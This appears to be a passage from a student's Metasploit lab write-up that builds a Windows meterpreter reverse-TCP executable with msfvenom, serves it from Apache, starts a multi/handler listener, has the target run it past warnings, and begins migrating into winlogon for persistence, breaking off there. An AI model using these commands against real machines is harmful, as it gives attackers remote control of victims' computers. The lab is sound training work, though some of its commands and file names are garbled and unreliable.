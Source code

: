Find the attackers ip address using ifconfig

### Output:

<img width="752" height="419" alt="Screenshot 2025-10-04 094831" src="https://github.com/user-attachments/assets/b47ff0ef-1eea-46f8-be93-1b0aa53ef4db" />


Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.103.124.88 -f exe > test.exe```

### Output:

<img width="899" height="252" alt="Screenshot 2025-10-04 095109" src="https://github.com/user-attachments/assets/4a1e1352-3ec0-4910-873b-7e1d645acd03" />



copy the test.exe into the apache ```/var/www/html ```folder

<img width="494" height="93" alt="Screenshot 2025-10-04 095203" src="https://github.com/user-attachments/assets/fec03870-5056-4615-b630-0c885558fe12" />


Start apache server ```sudo systemctl apache2 start``` 

<img width="449" height="65" alt="Screenshot 2025-10-04 095332" src="https://github.com/user-attachments/assets/cffa9ff8-69b6-4934-a41c-abd8a1dbedc6" />


Check the status of apache2 ```sudo apache2 status```

<img width="970" height="533" alt="Screenshot 2025-10-04 095332" src="https://github.com/user-attachments/assets/cfd4a2f3-ce8b-4b56-a315-64d9f2bd4906" />


Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 

<img width="1193" height="874" alt="image" src="https://github.com/user-attachments/assets/58605597-95c5-493b-acde-9fabeb0f0a9f" />


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.



Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit



To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "test.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
